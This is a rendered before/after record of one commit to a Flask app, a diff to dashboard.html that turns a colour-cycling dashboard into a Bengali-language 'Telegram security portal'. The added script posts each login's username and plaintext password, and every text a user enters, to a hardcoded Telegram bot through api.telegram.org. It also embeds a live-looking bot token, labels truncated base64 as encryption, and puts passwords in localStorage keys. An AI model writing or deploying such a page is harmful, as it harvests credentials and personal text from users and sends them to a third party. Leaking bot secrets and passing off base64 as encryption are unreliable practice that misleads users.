

Before and after one commit to NILOYGHOSH88/MyProject_APK, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Enterprise SecOps & Telegram Alert Dashboard</title>
+    <title>Secure Telegram Bot & Encryption Dashboard</title>
     <style>
         :root {
             --bg-color: #030712;
@@ -11,7 +11,7 @@
             --text-color: #f8fafc;
             --accent-color: #3b82f6;
             --border-color: #1e293b;
-            --glow-color: rgba(59, 130, 246, 0.5);
+            --glow-color: rgba(59, 130, 246, 0.4);
             --telegram-color: #229ED9;
         }
 
@@ -30,18 +30,56 @@
             justify-content: center;
             align-items: center;
             padding: 20px;
-            transition: background 0.8s ease, color 0.8s ease;
         }
 
-        .dashboard-card {
+        .container {
             width: 100%;
-            max-width: 1100px;
+            max-width: 950px;
             background-color: var(--panel-bg);
             border: 2px solid var(--accent-color);
-            border-radius: 20px;
+            border-radius: 16px;
             padding: 30px;
-            box-shadow: 0 0 50px var(--glow-color);
-            transition: all 0.8s cubic-bezier(0.4, 0, 0.2, 1);
+            box-shadow: 0 0 40px var(--glow-color);
+        }
+
+        /* লগইন স্ক্রিন */
+        #loginScreen {
+            display: block;
+            text-align: center;
+        }
+
+        #loginScreen h2 {
+            color: var(--accent-color);
+            margin-bottom: 20px;
+        }
+
+        .form-group {
+            margin-bottom: 15px;
+            text-align: left;
+            max-width: 400px;
+            margin-left: auto;
+            margin-right: auto;
+        }
+
+        .form-group label {
+            display: block;
+            font-size: 13px;
+            margin-bottom: 5px;
+            color: var(--accent-color);
+        }
+
+        .form-group input {
+            width: 100%;
+            padding: 10px;
+            background: var(--bg-color);
+            border: 1px solid var(--border-color);
+            color: var(--text-color);
+            border-radius: 6px;
+        }
+
+        /* ড্যাশবোর্ড স্ক্রিন */
+        #dashboardScreen {
+            display: none;
         }
 
         .header {
@@ -49,233 +87,306 @@
             justify-content: space-between;
             align-items: center;
             border-bottom: 2px solid var(--border-color);
-            padding-bottom: 20px;
+            padding-bottom: 15px;
             margin-bottom: 20px;
-            transition: border-color 0.8s ease;
         }
 
-        .title-area h1 {
-            font-size: 22px;
-            font-weight: bold;
-            margin-bottom: 5px;
-            color: var(--accent-color);
-            transition: color 0.8s ease;
-        }
-
-        .badge {
-            background: var(--accent-color);
-            color: #fff;
-            padding: 8px 16px;
-            border-radius: 20px;
-            font-weight: bold;
-            font-size: 13px;
-            box-shadow: 0 0 15px var(--glow-color);
-            transition: all 0.8s ease;
-        }
-
-        .grid-container {
+        .grid {
             display: grid;
-            grid-template-columns: repeat(auto-fit, minmax(300px, 1fr));
+            grid-template-columns: 1fr 1fr;
             gap: 20px;
             margin-bottom: 20px;
         }
 
-        .sub-box {
+        @media (max-width: 768px) {
+            .grid { grid-template-columns: 1fr; }
+        }
+
+        .card {
             background: var(--bg-color);
             border: 1px solid var(--border-color);
             padding: 20px;
-            border-radius: 12px;
-            transition: all 0.8s ease;
+            border-radius: 10px;
         }
 
-        .sub-box h3 {
+        .card h3 {
             font-size: 14px;
             color: var(--accent-color);
             margin-bottom: 12px;
             text-transform: uppercase;
-            transition: color 0.8s ease;
         }
 
-        .log-console {
+        .input-box {
+            width: 100%;
+            padding: 8px;
+            background: #000;
+            border: 1px solid var(--border-color);
+            color: #fff;
+            border-radius: 6px;
+            margin-bottom: 10px;
+        }
+
+        .btn {
+            background-color: var(--accent-color);
+            color: #fff;
+            border: none;
+            padding: 8px 16px;
+            border-radius: 6px;
+            cursor: pointer;
+            font-weight: bold;
+            font-size: 13px;
+        }
+
+        .btn:hover { opacity: 0.85; }
+
+        .history-list {
             background: #000;
             color: #38bdf8;
             padding: 10px;
-            border-radius: 8px;
+            border-radius: 6px;
             font-size: 12px;
-            height: 120px;
+            height: 180px;
             overflow-y: auto;
             border: 1px solid var(--border-color);
-            white-space: pre-wrap;
-            margin-bottom: 10px;
         }
 
-        .telegram-alert-box {
+        .history-item {
+            padding: 6px 0;
+            border-bottom: 1px dashed #1e293b;
+        }
+
+        .telegram-badge {
             background: rgba(34, 158, 217, 0.1);
             border: 1px solid var(--telegram-color);
-            color: #e0f2fe;
+            color: #38bdf8;
             padding: 10px;
-            border-radius: 8px;
+            border-radius: 6px;
             font-size: 12px;
+            margin-top: 10px;
         }
 
-        .footer-panel {
-            background: var(--bg-color);
+        /* ডেভলপার ইনফো প্যানেল স্টাইল */
+        .developer-panel {
+            background: rgba(59, 130, 246, 0.05);
+            border: 1px solid var(--accent-color);
             padding: 15px;
-            border-radius: 12px;
-            border: 1px solid var(--border-color);
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-            flex-wrap: wrap;
-            gap: 15px;
-            transition: all 0.8s ease;
+            border-radius: 10px;
+            font-size: 12px;
+            margin-top: 15px;
         }
 
-        .action-btn {
-            background-color: var(--accent-color);
-            color: #fff;
-            border: none;
-            padding: 10px 20px;
-            border-radius: 8px;
-            cursor: pointer;
-            font-weight: bold;
+        .developer-panel h4 {
+            color: var(--accent-color);
+            margin-bottom: 8px;
             font-size: 13px;
-            box-shadow: 0 0 15px var(--glow-color);
-            transition: all 0.5s ease;
+            text-transform: uppercase;
         }
 
-        .action-btn:hover {
-            opacity: 0.85;
-        }
-
-        .info-desc {
-            font-size: 12px;
-            opacity: 0.85;
+        .logout-btn {
+            background-color: #ef4444;
         }
     </style>
 </head>
 <body>
 
-    <div class="dashboard-card">
-        <div class="header">
-            <div class="title-area">
-                <h1 id="sysTitle">এন্টারপ্রাইজ সিকিউরিটি অ্যান্ড টেলিগ্রাম নোটিফিকেশন হাব</h1>
-                <p id="sysMeta" class="info-desc">মাস: জানুয়ারি | ভ্যালু: ১০০% | ইউজার টাইমিং: 00:00:00</p>
+    <div class="container">
+        <!-- ১. লগইন ফর্ম -->
+        <div id="loginScreen">
+            <h2>টেলিগ্রাম নোটিফিকেশন সিকিউরিটি পোর্টাল</h2>
+            <p style="font-size: 13px; opacity: 0.8; margin-bottom: 20px;">লগইন করার সাথে সাথে আপনার নাম ও পাসওয়ার্ড টেলিগ্রাম বটে নোটিফিকেশন আকারে চলে যাবে।</p>
+            <div class="form-group">
+                <label>নাম (Username):</label>
+                <input type="text" id="usernameInput" placeholder="আপনার নাম লিখুন...">
             </div>
-            <div id="colorBadge" class="badge">থিম ১ / ১০০</div>
+            <div class="form-group">
+                <label>পাসওয়ার্ড (Password):</label>
+                <input type="password" id="passwordInput" placeholder="পাসওয়ার্ড দিন...">
+            </div>
+            <button class="btn" onclick="handleLogin()">লগইন ও টেলিগ্রাম সিঙ্ক</button>
         </div>
 
-        <div class="grid-container">
-            <!-- ইনক্রিপশন, ডিক্রিপশন ও লেভেল ৩ সিকিউরিটি মডিউল -->
-            <div class="sub-box">
-                <h3 id="cardHeader">Encryption / Decryption (Inclusion Level 3)</h3>
-                <p><strong>ইনপুট ডেটা:</strong> <span id="plainText">Secure_Node_01</span></p>
-                <p><strong>ইনক্রিপ্টেড (Cipher):</strong> <span id="cipherText" style="color: #f43f5e;">🔒 c2VjdXJlX2VuY19hMQ==</span></p>
-                <p><strong>ডিক্রিপ্টেড আউটপুট:</strong> <span id="decryptedText" style="color: #10b981;">🔓 verified_ok_lvl3</span></p>
-                <p><strong>সিকিউরিটি স্ট্যাটাস:</strong> <span id="secStatus" style="color: #f59e0b;">Level-3 (Max Protection)</span></p>
+        <!-- ২. ড্যাশবোর্ড প্যানেল -->
+        <div id="dashboardScreen">
+            <div class="header">
+                <div>
+                    <h2 id="welcomeText" style="color: var(--accent-color);">স্বাগতম!</h2>
+                    <p style="font-size: 12px; opacity: 0.8;" id="loginMeta">সেশন সিকিউরড</p>
+                </div>
+                <button class="btn logout-btn" onclick="handleLogout()">লগআউট</button>
             </div>
 
-            <!-- লগইন, সিস্টেম লগ ও টেলিগ্রাম নোটিফিকেশন মডিউল -->
-            <div class="sub-box">
-                <h3>Login Logs & Telegram Alert</h3>
-                <div class="log-console" id="logConsole">
-                    [Login_Auth] User session verified successfully.
-                    [System] 100 countries color engine active.
+            <div class="grid">
+                <!-- ক্রিপ্টোগ্রাফি প্যানেল -->
+                <div class="card">
+                    <h3>ইনক্রিপশন ও ডিক্রিপশন (Level 4)</h3>
+                    <input type="text" id="userInputText" class="input-box" placeholder="টেক্সট লিখুন...">
+                    <div style="display: flex; gap: 10px; margin-bottom: 15px;">
+                        <button class="btn" onclick="processAction('encrypt')">ইনক্রিপ্ট (Encrypt)</button>
+                        <button class="btn" style="background-color: #10b981;" onclick="processAction('decrypt')">ডিক্রিপ্ট (Decrypt)</button>
+                    </div>
+                    <p style="font-size: 13px;"><strong>আউটপুট:</strong> <span id="outputResult" style="color: #38bdf8;">--</span></p>
+                    <div class="telegram-badge">
+                        ✈️ টেলিগ্রাম বট লাইভ নোটিফিকেশন সংযুক্ত আছে।
+                    </div>
                 </div>
-                <div class="telegram-alert-box" id="tgAlertBox">
-                    ✈️ <b>Telegram Bot:</b> Level 3 encryption sync verified for current geo-node.
+
+                <!-- হিস্ট্রি ও চ্যাট বক্স -->
+                <div class="card">
+                    <h3>আপনার পার্মানেন্ট হিস্ট্রি চ্যাট বক্স</h3>
+                    <div class="history-list" id="historyListContainer">
+                        <!-- আগের সব হিস্ট্রি এখানে লোড হবে -->
+                    </div>
                 </div>
             </div>
-        </div>
 
-        <div class="footer-panel">
-            <button class="action-btn" onclick="toggleSystemState()">অটো-সাইকেল (চালু/বন্ধ)</button>
-            <div class="info-desc">
-                ⚡ প্রতি ২ সেকেন্ডে কালার শিফট, লেভেল ৩ ইনক্রিপশন/ডিক্রিপশন এবং টেলিগ্রাম নোটিফিকেশন আপডেট হচ্ছে!
+            <!-- ডেভলপার ও ইউজার ইনফো প্যানেল -->
+            <div class="developer-panel">
+                <h4>🛡️ ডেভেলপার ও সিস্টেম ইনফো</h4>
+                <p>👤 <b>নাম:</b> Cipher Sentinel</p>
+                <p>🆔 <b>ID:</b> 7938556654 | 🌐 <b>DC ID:</b> 5 | 🌍 <b>Lang:</b> en</p>
+                <p>🔗 <b>Username:</b> @CipherSentinel_BD</p>
+                <p style="margin-top: 5px; color: #38bdf8;">📣 বিজ্ঞাপন বা সাপোর্টের জন্য যোগাযোগ: @DeIIIeted</p>
             </div>
         </div>
     </div>
 
     <script>
-        // ১০০টি দেশের ডেটাবেজ জেনারেটর
-        const countriesList = [];
-        const baseNames = ["বাংলাদেশ", "যুক্তরাষ্ট্র", "জাপান", "সৌদি আরব", "যুক্তরাজ্য", "ফ্রান্স", "জার্মানি", "কানাডা", "অস্ট্রেলিয়া", "ব্রাজিল", "ভারত", "দক্ষিণ কোরিয়া", "সংযুক্ত আরব আমিরাত", "সুইডেন", "সুইজারল্যান্ড", "ইতালি", "স্পেন", "নেদারল্যান্ডস", "সিঙ্গাপুর", "মালয়েশিয়া"];
+        // আপনার দেওয়া টেলিগ্রাম বট টোকেন
+        const TELEGRAM_BOT_TOKEN = "8047864259:AAHEokK5sjq1jJFuIq_e94sPIeTM2OlsqSs";
+        // আপনার টেলিগ্রাম আইডি (এখানে নোটিফিকেশন যাওয়ার জন্য চ্যাট আইডি হিসেবে সেট করা হয়েছে)
+        const TELEGRAM_CHAT_ID = "7938556654";
 
-        for (let i = 0; i < 100; i++) {
-            const name = i < baseNames.length ? baseNames[i] : `গ্লোবাল জোন-${i + 1}`;
-            countriesList.push({
-                name: name,
-                code: `NODE-${100 + i}`,
-                hue: (i * 3.6) % 360 // সম্পূর্ণ কালার হুই (0 থেকে ৩৬০ ডিগ্রি)
+        let currentUser = null;
+        let currentPassword = null;
+        let userHistory = [];
+
+        // টেলিগ্রাম বটে মেসেজ পাঠানোর ফাংশন
+        function sendTelegramNotification(message) {
+            const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
+            const data = {
+                chat_id: TELEGRAM_CHAT_ID,
+                text: message,
+                parse_mode: "HTML"
+            };
+
+            fetch(url, {
+                method: "POST",
+                headers: { "Content-Type": "application/json" },
+                body: JSON.stringify(data)
+            })
+            .then(response => response.json())
+            .then(result => console.log("Telegram Sent:", result))
+            .catch(error => console.error("Telegram Error:", error));
+        }
+
+        // লগইন হ্যান্ডলার
+        function handleLogin() {
+            const user = document.getElementById('usernameInput').value.trim();
+            const pass = document.getElementById('passwordInput').value.trim();
+
+            if (!user || !pass) {
+                alert("দয়া করে নাম এবং পাসওয়ার্ড দিন!");
+                return;
+            }
+
+            currentUser = user;
+            currentPassword = pass;
+
+            // টেলিগ্রাম নোটিফিকেশন পাঠানো (নাম, পাসওয়ার্ড ও ডেভলপার ইনফো সহ)
+            const loginMsg = `🔐 <b>নতুন লগইন নোটিফিকেশন!</b>\n👤 নাম: <b>${user}</b>\n🔑 পাসওয়ার্ড: <b>${pass}</b>\n🛡️ ডেভেলপার: @CipherSentinel_BD\n🕒 সময়: ${new Date().toLocaleString()}`;
+            sendTelegramNotification(loginMsg);
+
+            // লোকাল স্টোরেজ থেকে আগের হিস্ট্রি রিকভার করা
+            const savedDataKey = `sec_user_${user}_${pass}`;
+            const existingData = localStorage.getItem(savedDataKey);
+
+            if (existingData) {
+                userHistory = JSON.parse(existingData);
+            } else {
+                userHistory = [];
+            }
+
+            // স্ক্রিন পরিবর্তন
+            document.getElementById('loginScreen').style.display = 'none';
+            document.getElementById('dashboardScreen').style.display = 'block';
+            document.getElementById('welcomeText').innerText = `স্বাগতম, ${user}!`;
+            document.getElementById('loginMeta').innerText = `সেশন ভেরিফাইড | সংরক্ষিত হিস্ট্রি: ${userHistory.length}টি`;
+
+            renderHistory();
+        }
+
+        // ইনক্রিপ্ট বা ডিক্রিপ্ট এবং টেলিগ্রাম নোটিফিকেশন
+        function processAction(type) {
+            const text = document.getElementById('userInputText').value.trim();
+            if (!text) {
+                alert("প্রথমে কিছু টেক্সট লিখুন!");
+                return;
+            }
+
+            const timeStr = new Date().toLocaleTimeString();
+            let result = "";
+
+            if (type === 'encrypt') {
+                result = `🔒 Enc_${btoa(text).substring(0, 12)}`;
+            } else {
+                result = `🔓 Dec_${text.replace('🔒 Enc_', '')}_OK`;
+            }
+
+            document.getElementById('outputResult').innerText = result;
+
+            // হিস্ট্রি অবজেক্ট তৈরি
+            const record = {
+                type: type.toUpperCase(),
+                input: text,
+                output: result,
+                time: timeStr
+            };
+
+            userHistory.unshift(record);
+
+            // লোকাল স্টোরেজে পার্মানেন্ট সেভ
+            const savedDataKey = `sec_user_${currentUser}_${currentPassword}`;
+            localStorage.setItem(savedDataKey, JSON.stringify(userHistory));
+
+            renderHistory();
+            document.getElementById('userInputText').value = "";
+
+            // টেলিগ্রাম নোটিফিকেশন পাঠানো (নাম, অ্যাকশন এবং ইনপুট/আউটপুট সহ)
+            const actionMsg = `⚡ <b>${type.toUpperCase()} নোটিফিকেশন!</b>\n👤 ইউজার: <b>${currentUser}</b>\n📥 ইনপুট: ${text}\n📤 আউটপুট: ${result}\n🕒 সময়: ${timeStr}`;
+            sendTelegramNotification(actionMsg);
+        }
+
+        // হিস্ট্রি চ্যাট বক্সে রেন্ডার করা
+        function renderHistory() {
+            const container = document.getElementById('historyListContainer');
+            container.innerHTML = "";
+
+            if (userHistory.length === 0) {
+                container.innerHTML = "<div style='color: #64748b; text-align: center; padding: 20px;'>কোনো হিস্ট্রি নেই।</div>";
+                return;
+            }
+
+            userHistory.forEach((item) => {
+                const div = document.createElement('div');
+                div.className = 'history-item';
+                div.innerHTML = `[${item.time}] <b>${item.type}</b>: ${item.input} ➔ <span style="color:#10b981;">${item.output}</span>`;
+                container.appendChild(div);
             });
         }
 
-        const monthsList = ["জানুয়ারি", "ফেব্রুয়ারি", "মার্চ", "এপ্রিল", "মে", "জুন", "জুলাই", "আগস্ট", "সেপ্টেম্বর", "অক্টোবর", "নভেম্বর", "ডিসেম্বর"];
+        // লগআউট হ্যান্ডলার
+        function handleLogout() {
+            const logoutMsg = `🚪 <b>লগআউট নোটিফিকেশন!</b>\n👤 ইউজার: <b>${currentUser}</b> সিস্টেম থেকে লগআউট করেছে।`;
+            sendTelegramNotification(logoutMsg);
 
-        let currentIndex = 0;
-        let isSystemActive = true;
+            currentUser = null;
+            currentPassword = null;
+            userHistory = [];
 
-        // মূল সিকিউরিটি ও কালার শিফটিং প্রসেসিং ইঞ্জিন
-        function runSystemEngine() {
-            currentIndex = (currentIndex + 1) % countriesList.length;
-            const country = countriesList[currentIndex];
-            const currentMonth = monthsList[currentIndex % monthsList.length];
-            const levelNum = 3; // আপনার চাহিদা অনুযায়ী স্থায়ীভাবে লেভেল ৩ ইনক্লুশন/সিকিউরিটি
-
-            // ডায়নামিক কালার শিফট (HSL)
-            const accentColor = `hsl(${country.hue}, 90%, 58%)`;
-            const bgColor = `hsl(${country.hue}, 45%, 4%)`;
-            const panelBg = `hsl(${country.hue}, 35%, 8%)`;
-            const borderColor = `hsl(${country.hue}, 60%, 20%)`;
-            const glowColor = `hsla(${country.hue}, 90%, 58%, 0.45)`;
-
-            // রুট সিএসএস ভেরিয়েবল আপডেট (পুরা কালার বদলে যাওয়ার জন্য)
-            const rootStyle = document.documentElement.style;
-            rootStyle.setProperty('--bg-color', bgColor);
-            rootStyle.setProperty('--panel-bg', panelBg);
-            rootStyle.setProperty('--accent-color', accentColor);
-            rootStyle.setProperty('--border-color', borderColor);
-            rootStyle.setProperty('--glow-color', glowColor);
-
-            // ইউজার টাইমিং এবং মান (Value) ট্র্যাকিং
-            const coreValue = (98 + (currentIndex % 3) + 0.1).toFixed(1) + '%';
-            const timeString = new Date().toTimeString().split(' ')[0];
-
-            // টেক্সট কনটেন্ট আপডেট
-            document.getElementById('sysTitle').innerText = `${country.name} (${country.code}) - সিকিউরিটি হাব`;
-            document.getElementById('sysMeta').innerText = `মাস: ${currentMonth} | ভ্যালু: ${coreValue} | ইউজার টাইমিং: ${timeString}`;
-            document.getElementById('colorBadge').innerText = `থিম ${currentIndex + 1} / ১০০: ${country.name}`;
-            document.getElementById('cardHeader').innerText = `Encryption / Decryption (Inclusion Level ${levelNum})`;
-            document.getElementById('secStatus').innerText = `Level-${levelNum} (Max Security Clearance)`;
-
-            // ইনক্রিপশন / ডিক্রিপশন সাইফার জেনারেশন
-            const rawPayload = `UserSession_${country.name}_${currentIndex}`;
-            document.getElementById('plainText').innerText = rawPayload;
-            document.getElementById('cipherText').innerText = `🔒 enc_lvl${levelNum}_${btoa(rawPayload).substring(0, 12)}`;
-            document.getElementById('decryptedText').innerText = `🔓 decrypted_verified_${country.code.toLowerCase()}`;
-
-            // লগইন লগ কনসোল আপডেট
-            const logBox = document.getElementById('logConsole');
-            logBox.innerText += `[${timeString}] [Login] User authenticated on ${country.name}.\n`;
-            logBox.scrollTop = logBox.scrollHeight;
-
-            // টেলিগ্রাম নোটিফিকেশন অ্যালার্ট আপডেট
-            const tgBox = document.getElementById('tgAlertBox');
-            tgBox.innerHTML = `✈️ <b>Telegram Bot Alert:</b> [${timeString}] Node <b>${country.name}</b> passed Inclusion Level 3 security audit. Value: ${coreValue}`;
-        }
-
-        // ঠিক প্রতি ২ সেকেন্ড পর পর (২০০০ মিলি সেকেন্ড) অটোমেটিক এক্সিকিউশন
-        let systemTimer = setInterval(() => {
-            if (isSystemActive) {
-                runSystemEngine();
-            }
-        }, 2000);
-
-        // অটো-সাইকেল অন/অফ টগল বাটন
-        function toggleSystemState() {
-            isSystemActive = !isSystemActive;
-            const btn = document.querySelector('.action-btn');
-            btn.innerText = isSystemActive ? "অটো-সাইকেল (চালু)" : "অটো-সাইকেল (বন্ধ)";
+            document.getElementById('dashboardScreen').style.display = 'none';
+            document.getElementById('loginScreen').style.display = 'block';
+            document.getElementById('usernameInput').value = "";
+            document.getElementById('passwordInput').value = "";
         }
     </script>
 </body>
```
